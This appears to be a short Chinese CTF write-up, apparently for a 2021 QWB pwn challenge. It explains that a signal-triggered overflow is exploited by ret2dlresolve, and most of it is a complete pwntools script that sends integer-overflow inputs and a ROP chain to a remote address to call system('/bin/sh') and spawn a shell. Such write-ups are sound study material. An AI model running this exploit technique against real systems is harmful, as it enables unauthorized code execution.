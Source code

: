 触发就能有如下的溢出

![thumbnail (3)](2021qwb/thumbnail%20(3).png)

直接触发信号得到溢出进行ret2_dl_runtime_resolve就行了

```python
from pwn import *
context.log_level = "debug"
context.arch = "i386"
#p = process("./test")
p=remote('39.105.138.97',1234)
elf = ELF("./test")
s = lambda a: p.send(str(a))
sa = lambda a, b: p.sendafter(str(a), str(b))
sl = lambda a: p.sendline(str(a))
sla = lambda a, b: p.sendlineafter(str(a), str(b))
r = lambda a=4096: p.recv(a)
rl = lambda: p.recvline()
ru = lambda a: p.recvuntil(str(a))
buf = "\x00"*0x30
src = "b" * 0x20
s(buf)
s(src)
sl("hello_boy\x00\x00\x00\x00\x00\x00\x00")
sl("-2147483648")
sl("-1")
context.binary = elf
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
payload = flat({0x4c:raw_rop,0x100:dlresolve.payload})
p.send(payload)
p.interactive()

```

flag值：
![thumbnail (4)](2021qwb/thumbnail%20(4)-4170308.png)
